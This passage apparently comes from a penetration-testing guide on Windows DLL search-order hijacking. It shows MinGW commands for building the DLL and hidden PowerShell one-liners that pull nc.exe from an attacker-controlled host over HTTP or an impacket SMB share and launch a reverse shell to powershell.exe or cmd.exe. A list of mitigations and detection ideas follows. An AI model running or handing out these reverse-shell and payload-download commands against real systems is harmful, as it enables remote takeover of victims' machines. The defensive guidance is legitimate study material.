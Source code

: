Here are the command to compile it:

```bash
# x86
i686-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
i686-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib, main.a
# x64
x86_64-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
x86_64-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib, main.a
```

The **-DBUILDING_EXAMPLE_DLL** compiler option causes the DLL's functions to be declared as "dllexport", meaning that they will be "exported" from the DLL and available to client applications.
The **-shared**"** option tells the linker to create a DLL instead of an .exe

To create a Dynamic-Link Library (DLL), you must create one or more source code files, and possibly a linker file for exporting the functions. To allow applications that use your DLL to use load-time dynamic linking, you must also create an import library using **-Wl,--out-implib**

*Note that it requires the following package: mingw-w64*

We can either:

- Download nc.exe through HTTP by hosting a Web Server

```bash
# Windows 7 and Windows Server 2008 R2 + newer
powershell -windowstyle hidden Invoke-WebRequest -uri http://OUR_IP/nc.exe -outfile nc.exe & nc.exe OUR_IP OUR_NC_PORT -e powershell.exe
# Older
powershell -windowstyle hidden Invoke-WebRequest -uri http://OUR_IP/nc.exe -outfile nc.exe & nc.exe OUR_IP OUR_NC_PORT -e cmd.exe
```

- Create a SMB server using python-impacket/smbserver.py

```bash
# Create a SMB server using impacket's smbserver.py
python3 /usr/share/python-impacket/smbserver.py temporary /tmp/ -smb2support
```

```powershell
# Windows 7 and Windows Server 2008 R2 + newer
powershell -windowstyle hidden copy \\\\\\\OUR_IP\\\temporary\\\\nc.exe & nc.exe OUR_IP OUR_NC_PORT -e powershell.exe
# Older
powershell -windowstyle hidden copy \\\\\\\OUR_IP\\\temporary\\\\nc.exe & nc.exe OUR_IP OUR_NC_PORT -e cmd.exe
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: When developping applications,use fully qualified path when loading DLLs
- *Architecture*: If available, use the function such as [SetDllDirectoryA](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-setdlldirectorya) *with empty string* to removes the current directory from the default DLL search order.
- *Architecture*: Disallow loading of remote DLLs.
- *Architecture*: Enable Safe DLL Search Mode to force search for system DLLs in directories with greater restrictions *(e.g. %SYSTEMROOT%)* to be used before local directory DLLs
- *Passive Defense*: Audit for DLL search order hijacking opportunities on systems within an enterprise and correct them.
- *Active Defense*: Use Endpoint Protection system which odentify and block potentially malicious software executed through search order hijacking.
- *Active Defense*: Monitor file systems for moving, renaming, replacing, or modifying DLLs outside planned installations/updates.
- *Active Defense*: Monitor changes in the set of DLLs that are loaded by a process (compared with past behavior) that do not correlate with known software.
- *Active Defense*: Monitor DLLs loaded into a process and detect DLLs that have the same file name but abnormal paths.
